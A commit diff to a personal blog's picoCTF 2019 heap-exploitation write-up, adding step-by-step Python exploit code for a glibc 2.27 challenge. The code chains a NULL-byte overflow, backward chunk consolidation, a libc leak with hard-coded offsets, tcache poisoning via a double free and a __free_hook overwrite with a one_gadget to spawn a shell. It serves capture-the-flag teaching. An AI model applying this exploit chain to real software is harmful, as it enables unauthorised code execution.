

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-10-12-picoctf-2019-heap-challs.markdown, in a window 1280 px wide and 1400 px high, scrolled down 18632 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Pico seems done

````diff
--- a/_posts/2019-10-12-picoctf-2019-heap-challs.markdown
+++ b/_posts/2019-10-12-picoctf-2019-heap-challs.markdown
@@ -467,6 +467,13 @@
 
 * The idea is that we want to use the single NULL byte overflow to set C's `PREV_INUSE` bit to 0, meaning we change C's size from 0x131 to 0x100. As we do that, we also want to set C's `prev_size` field to 0x250. More information about that is given below.
 
+```python
+# Setup
+add(0x128) # A, idx 0
+add(0x118) # B, idx 1
+add(0x118) # C, idx 2
+```
+
 * The chunks are shown in gdb as follows:
 
 ```c
@@ -485,6 +492,26 @@
 
 * Completely fill up the 0xf0 sized tcache bin (Which would store the freed chunk C ***after*** its size is overwritten to 0x100) and 0x128 sized tcache bin (which would otherwise store chunk A when we free it).
 
+```python
+# Fill up tcache bin 0xf0
+# Done because the NULL byte overflow will unset the PREV_INUSE bit of the next chunk
+# Meaning that it will change the next chunks size to 0x100
+# 0x100 chunks go into the 0xf0 tcache bin
+# We prevent this since we want backwards consolidation to occur
+# This will be evident further below
+for i in range(7):
+  add(0xf0)
+for i in range(7):
+  free(i+3)
+
+# Fill up tcache bin 0x128
+# We do this because of the same reason above
+for i in range(7):
+  add(0x128)
+for i in range(7):
+  free(i+3)
+```
+
 ```c
 gef➤  heap bins tcache
 
@@ -494,17 +521,26 @@
 Tcachebins[idx=17, size=0x120] count=7  ←  Chunk(addr=0x55a7bc2553f0, size=0x130, flags=PREV_INUSE)  ←  Chunk(addr=0x55a7bc2552c0, size=0x130, flags=PREV_INUSE)  ←  ...
 ```
 
-* We don't want either of the chunks A or C to go into the tcache bins, as there is no consolidation in the tcache bins. The exploit relies on the fact that chunk C will coalesce backwards with chunks A and B provided we set up the heap correctly.
+* We don't want either of the chunks A or C to go into the tcache bins, as there is no consolidation in the tcache bins. The exploit relies on the fact that chunk C will consolidate backwards with chunks A and B provided we set up the heap correctly.
 
 #### Step 3: **Prepare chunk A for consolidation later on**
 
-* Free chunk A. This sends chunk A into the unsorted bin (as the 0x128 sized tcache bin is full), meaning a libc pointer pointing to the `main_arena` is placed into chunk A's `fd` and `bk` pointers, as shown below:
+* Free chunk A. This sends chunk A into the unsorted bin (as the 0x128 sized tcache bin is full), meaning a libc pointer pointing to the `main_arena` is placed into chunk A's `fd` and `bk` pointers:
+
+```python
+# Make chunk A go into unsorted bin
+# This is important because we are consolidating chunk C back with both chunks A and B
+# Meaning that unlink will be called with chunk A as it's second argument
+# unlink has some security checks, one being that A's fd and bk must have valid pointers
+# This free will put the pointers to `main_arena+0x58` into the fd and bk of A
+free(0) # Chunk A
+```
 
 ```c
 gef➤  x/40gx 0x000055a7bc254250
 0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- chunk A
-0x55a7bc254260: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers into the main_arena unsorted bin
-0x55a7bc254270: 0x0000000000000000      0x0000000000000000
+0x55a7bc254260: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers into
+0x55a7bc254270: 0x0000000000000000      0x0000000000000000    main_arena+0x58
 ...
 ```
 
@@ -512,13 +548,20 @@
 
 * Using gdb, we can calculate the difference between the leaked pointers and the libc base now. This offset remains constant every time we run the program. This offset is found to be `0x3ebca0`.
 
-#### Step 4: **Abuse the vulnerability**
+#### Step 4: **Abuse the NULL byte overflow**
 
 * Edit chunk B's contents to cause a NULL byte overflow into chunk C's size. This changes chunk C's total size (including metadata) from 0x121 to 0x100. Notice that the `PREV_INUSE` bit gets set to 0 in the process, due to the NULL byte overflow, which causes the chunk that is `prev_size` bytes before C to appear to be free when we free chunk C later on.
 
 * In the process of doing the NULL byte overflow, we also set chunk C's `prev_size` field to 0x250. This causes the `prev_size` field to encompass both chunks A and B. Later when we free chunk C, the `unlink` macro is called using chunk A ***because*** of the fact that we set chunk C's `prev_size` such that it encompasses up to chunk A. This causes chunks A, B, and C to be consolidated into one large chunk, which is then put into the unsorted bin.
 
 * The code for the unlink macro will be shown a bit further down.
+
+```python
+# Null byte overflow onto chunk C.
+# C's size is now 0x100.
+# C's prev_size is also set to 0x250
+talk(1, 'B'*0x110 + p64(0x250))
+```
 
 ```c
 gef➤  x/80gx 0x55a7bc254380
@@ -538,6 +581,13 @@
 
 * Since chunk C's size has changed from 0x121 to 0x100, we must create a fake chunk within chunk C. We need to do this now because freeing chunk C will insert it into the unsorted bin as the 0xf0 tcache bin is full (remember that the 0x100 size includes metadata, so the chunk really has a size of 0xf0 without the metadata).
 
+```python
+# Before we free chunk C, we must create a fake chunk 0x100 bytes after chunk C
+# This fake chunk must have its PREV_INUSE bit set to 1, hence we choose size 0x21
+# This is required to bypass some checks when a chunk is freed into the unsorted bin
+talk(2, 'C'*0xf8 + p64(0x21) + '\n')
+```
+
 ```c
 gef➤  x/50gx 0x55a7bc2544a0
 0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
@@ -554,11 +604,19 @@
 
 #### Step 6: **Free chunk C, causing the backwards consolidation**
 
+```python
+# We free C now.
+# C's prev_size is 0x250, so it will consolidate backwards 0x250 bytes (all the way up to A)
+# Unsorted bin will now have a 0x350 sized chunk right on top of A
+# A's fd and bk pointers will still have pointers to `main_arena+0x58`
+free(2)
+```
+
 * Now, after all this preparation, we free chunk C. This calls `_int_free()`. First, the tcache bin 0xf0 is checked to see if there is space in it, but it's already full, so chunk C is then placed into the unsorted bin.
 
-* While this is done, chunk C's size is checked, and it is seen to be 0x100. `_int_free()` will then check for a chunk 0x100 bytes after chunk C to ensure that that chunk's `PREV_INUSE` bit is set to 1. If it is not, then `_int_free()` will error out saying `"double free or corruption (!prev)"`, since chunk C will appear to be free if the next chunk's `PREV_INUSE` bit is not set to 1.
-
-* Since we changed chunk C's size from 0x121 to 0x100, there isn't a chunk 0x100 bytes after chunk C, which is why we place a chunk there ourselves with its `PREV_INUSE` bit set to 1. This check is documented [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L4279):
+* While this is done, chunk C's size is checked, and it is seen to be 0x100. `_int_free()` will then check for a chunk 0x100 bytes after chunk C to ensure that that chunk's `PREV_INUSE` bit is set to 1. If it is not, then `_int_free()` will error out saying `"double free or corruption (!prev)"`, since chunk C will appear to be free if the next chunk's `PREV_INUSE` bit is not set.
+
+* Since we changed chunk C's size from 0x121 to 0x100, there isn't a chunk 0x100 bytes after chunk C, which is why we placed a chunk there ourselves in the previous step with its `PREV_INUSE` bit set. This check is documented [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L4279):
 
 ```c
 /* Or whether the block is actually not marked used.  */
@@ -646,9 +704,24 @@
 
 * We do this simply by allocating 7 chunks of size 0x128, so that the 7 chunks in the tcache bin of size 0x128 are taken out.
 
+```python
+# Empty the 0x128 tcache bin so we can get chunks out of the unsorted bin
+# Indexes taken up: 0, 2, 3, 4, 5, 6, 7
+for i in range(7):
+  add(0x128)
+```
+
 #### Step 8: **Allocate chunk A back again to move the libc pointers into chunk B**
 
 * We now add a chunk of size 0x128, which gets serviced by the unsorted bin. This will take a 0x128 size chunk out from the 0x350 sized chunk already in the unsorted bin and return it to us. In this case, this returns the chunk A that we initially allocated back to us.
+
+```python
+# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin
+# In this case, unsorted bin will have a 0x350 sized chunk on chunk A
+# We first add a 0x128 sized chunk so that the libc address gets moved down to chunk B
+# This happens because now the unsorted bin will have a chunk starting at chunk B
+add(0x128) # idx 8
+```
 
 * The key part is that it moves the libc pointers that were in chunk A's `fd` and `bk` down to chunk B, which we ***still*** have a pointer to. This is shown below:
 
@@ -669,9 +742,27 @@
 
 #### Step 9: **Use the existing pointer to chunk B to read the libc address of the main_arena**
 
-* Since we still have a pointer to chunk B, we simply use it to read chunk B's contents. In this case, it gives us our libc pointer leak, which we use to calculate the libc base address.
-
-* With the base address, we also calculate the address of `__free_hook`, which is a function pointer that `free()` uses if it is set by the user. If we overwrite this function pointer with a pointer of our choosing, then the next time `free()` is called, it will also call the function pointed to by `__free_hook`, giving us code execution. Code found [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L3084) and shown below:
+* Since we still have a pointer to chunk B, we simply use it to read chunk B's contents. In this case, it gives us our libc pointer leak, which we use to calculate the libc base address. With the base address, we also calculate the address of `__free_hook`, which is a function pointer that `free()` uses if it is set by the user.
+
+* With the base address, we also calculate the address of our `one_gadget`, which is essentially a set of instructions in libc that correspond to `execve("/bin/sh", NULL, NULL)`. The one gadget address is found by running david942j's [one_gadget](https://github.com/david942j/one_gadget) tool on `libc-2.27.so`.
+
+```python
+# Now since we have a pointer to chunk B, we can leak the the fd pointer
+# Remember the fd pointer just points to `main_arena+0x58`
+libc_leak = u64(listen(1).ljust(8, '\x00'))
+
+# Calculate needed offsets
+libc.address = libc_leak - 0x3ebca0
+one_gadget = libc.address + 0x4f322
+free_hook = libc.symbols['__free_hook']
+
+log.info('main arena leak: ' + hex(libc_leak))
+log.info('Libc base: ' + hex(libc.address))
+log.info('one gadget: ' + hex(one_gadget))
+log.info('free_hook: ' + hex(free_hook))
+```
+
+* If we overwrite this function pointer with a pointer of our choosing, then the next time `free()` is called, it will also call the function pointed to by `__free_hook`, giving us code execution. Code found [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L3084) and shown below:
 
 ```c
 void
@@ -692,36 +783,57 @@
 
 * We must overwrite something like `__free_hook` or `__malloc_hook` (which is malloc's version of the function pointer) because **Full RELRO** is enabled. If it wasn't, we would just overwrite a GOT table entry (`printf` would work).
 
-* With the base address, we also calculate the address of our `one_gadget`, which is essentially a set of instructions in libc that correspond to `execve("/bin/sh", NULL, NULL)`. The one gadget address is found by running david942j's [one_gadget](https://github.com/david942j/one_gadget) tool on `libc-2.27.so`.
-
-* The calculated addresses are shown when the program is ran:
-
-```c
-[*] main arena leak: 0x7f7e28fbeca0
-[*] Libc base: 0x7f7e28bd3000
-[*] one gadget: 0x7f7e28c22322
-[*] free_hook: 0x7f7e28fc08e8
-```
-
 #### Step 10: **Tcache Poisoning Attack to get malloc to return an arbitrary pointer to us**
 
 * Next, we do a tcache poisoning attack to get a chunk on top of `__free_hook`. I initially fill up the 0x128 sized tcache bin so that its easier to know which index each malloc will go into.
 
+```python
+# Fill up the 0x128 tcache bin again
+# We do this to make subsequent mallocs easier to use
+# It is easier to visualise the indexes in my opinion
+# Indexes freed: 0, 2, 3, 4, 5, 6, 7
+free(0)
+for i in range(2, 8):
+  free(i)
+```
+
 * Next, we add a chunk of size 0x1d8. This will get serviced by the unsorted bin since there is no tcache bin of that size. This gives us a chunk right on top of chunk B, as that was where the consolidated unsorted bin chunk was prior to this malloc. We now have overlapped chunks on top of chunk B.
 
-* Now that we have two pointers to chunk B, we do a double free, which causes the tcache bin for 0x1d8 chunks (the 0x1d0 sized tcache bin) to have the same chunk twice, visualized below:
+* Now that we have two pointers to chunk B, we do a double free, which causes the tcache bin for 0x1d8 chunks (the 0x1d0 sized tcache bin) to have the same chunk twice:
+
+```python
+# At this point, the two overlapped chunks are at indexes 0 and 1
+# Double free them and put them into tcache bin 0x1d8
+free(0)
+free(1)
+```
+
+* The tcache bin can be visualised as follows:
 
 ```c
 tcachebin[0x1d0] <- chunk B <- chunk B
 ```
 
-* We allocate a chunk of size 0x1d8 again, which gives us back one of the chunks from the 0x1d0 sized tcache bin. The tcache bin now looks like the following:
+* We allocate a chunk of size 0x1d8 again, which gives us back one of the chunks from the 0x1d0 sized tcache bin.
+
+```python
+# Add one of them, change its fd to __free_hook
+add(0x1d8) # idx 0
+```
+
+* The tcache bin now looks like the following:
 
 ```c
 tcachebin[0x1d0] <- chunk B
 ```
 
-* We set chunk B's `fd` pointer to the address of `__free_hook`. The tcache bin now looks like this:
+* We set chunk B's `fd` pointer to the address of `__free_hook`.
+
+```python
+talk(0, p64(free_hook) + '\n')
+```
+
+* The tcache bin now looks like this:
 
 ```c
 tcachebin[0x1d0] <- chunk B <- &__free_hook
@@ -729,7 +841,18 @@
 
 * We do two more mallocs of size 0x1d8, where the first malloc gives us chunk B from the tcache bin, and the second malloc gives us a chunk right on top of `__free_hook`.
 
+```python
+# Two more chunks and we get a chunk on __free_hook
+add(0x1d8) # 1, overlapped chunk with chunk B again
+add(0x1d8) # 2, chunk on __free_hook
+```
+
 * We then overwrite that chunk on `__free_hook` with the address of our one_gadget:
+
+```python
+# Overwrite __free_hook with one_gadget
+talk(2, p64(one_gadget) + '\n')
+```
 
 ```c
 gef➤  x/10gx 0x7f7e28fc08e8
@@ -738,6 +861,13 @@
 ```
 
 * Finally, we call `free()` one more time, which calls the function pointed to by `__free_hook`, which is our one gadget, thus giving us a shell.
+
+```python
+# Trigger __free_hook which gives us shell
+free(1)
+
+p.interactive()
+```
 
 #### Final exploit
 
````
Also changed, not shown: other parts of _posts/2019-10-12-picoctf-2019-heap-challs.markdown (+2 -2 lines), 1 other file.
